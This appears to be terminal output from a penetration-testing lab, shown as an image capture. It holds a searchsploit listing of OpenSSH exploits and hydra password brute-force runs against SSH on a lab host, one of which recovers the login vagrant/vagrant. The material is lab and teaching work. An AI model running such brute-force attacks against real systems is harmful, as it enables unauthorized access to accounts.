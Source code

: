 ```
root@attackdefense:~# searchsploit OpenSSH 7.1
---------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                            |  Path
---------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
OpenSSH 2.3 < 7.7 - Username Enumeration                                                                                                                  | linux/remote/45233.py
OpenSSH 2.3 < 7.7 - Username Enumeration (PoC)                                                                                                            | linux/remote/45210.py
OpenSSH < 7.4 - 'UsePrivilegeSeparation Disabled' Forwarded Unix Domain Sockets Privilege Escalation                                                      | linux/local/40962.txt
OpenSSH < 7.4 - agent Protocol Arbitrary Library Loading                                                                                                  | linux/remote/40963.txt
OpenSSH < 7.7 - User Enumeration (2)                                                                                                                      | linux/remote/45939.py
---------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
Papers: No Results
```

```
root@attackdefense:~# hydra -l vagrant -P /usr/share/wordlists/metasploit/unix_users.txt 10.0.16.119 ssh
Hydra v9.2 (c) 2021 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-05-03 18:01:27
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 168 login tries (l:1/p:168), ~11 tries per task
[DATA] attacking ssh://10.0.16.119:22/
[22][ssh] host: 10.0.16.119   login: vagrant   password: vagrant
```

```
[22][ssh] host: 10.0.16.119   login: vagrant   password: vagrant
```

```
root@attackdefense:~# hydra -l administrator -P /usr/share/wordlists/metasploit/unix_users.txt 10.0.16.119 ssh
Hydra v9.2 (c) 2021 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-05-03 18:04:31
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 168 login tries (l:1/p:168), ~11 tries per task
[DATA] attacking ssh://10.0.16.119:22/
[STATUS] 169.00 tries/min, 169 tries in 00:01h, 1 to do in 00:01h, 14 active
1 of 1 target completed, 0 valid password found
[WARNING] Writing restore file because 4 final worker threads did not complete until end.
[ERROR] 4 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-05-03 18:05:36
```
